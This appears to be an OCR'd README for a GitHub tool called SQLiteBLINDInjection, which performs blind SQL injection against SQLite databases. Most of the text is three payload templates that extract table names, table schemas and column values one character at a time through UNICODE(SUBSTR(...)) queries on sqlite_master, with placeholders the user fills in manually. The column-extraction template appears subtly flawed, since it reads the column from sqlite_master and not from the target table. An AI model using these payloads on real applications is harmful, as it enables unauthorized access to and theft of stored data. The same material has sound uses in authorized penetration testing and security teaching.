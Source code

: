 __________SQLiteBLINDInjection__________
Blind SQL Injection For SQLite Databases

https://github.com/aykutcanustun
Author: aykutcanustun

How to set queries:
__________________________________________________________________________________________________________
To retrieve table names from database, use this one:
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} --

To retrieve table schema, use this one:
' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

To retrieve values inside column, use this one:
' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

Replace $TABLE_NAME, $COLUMN_NAME with data that you retrieved from privious one!
___________________________________________________________________________________________________________

For using script, you have to set varibles manually!
